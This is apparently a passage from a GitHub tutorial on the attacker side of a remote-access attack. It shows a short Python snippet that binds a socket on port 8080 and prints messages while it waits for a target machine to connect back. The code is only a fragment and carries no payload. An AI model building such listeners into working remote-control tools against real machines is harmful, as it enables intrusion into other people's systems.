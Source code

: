 # :zap: Waiting for target to execute :zap: 

:star: Here the attacker by running this part of command start listening the to his port waiting for 
any incoming connection:


```python
import os
import socket

s = socket.socket()
host = socket.gethostname()
port = 8080

s.bind((host, port))


print (" ")
print (" Server is currently running @ ", host)
print (" ")
print (" Waiting for any incoming connection... ")


```
##
<img src=images/5.PNG  alt="alt text" width="950" height="550">

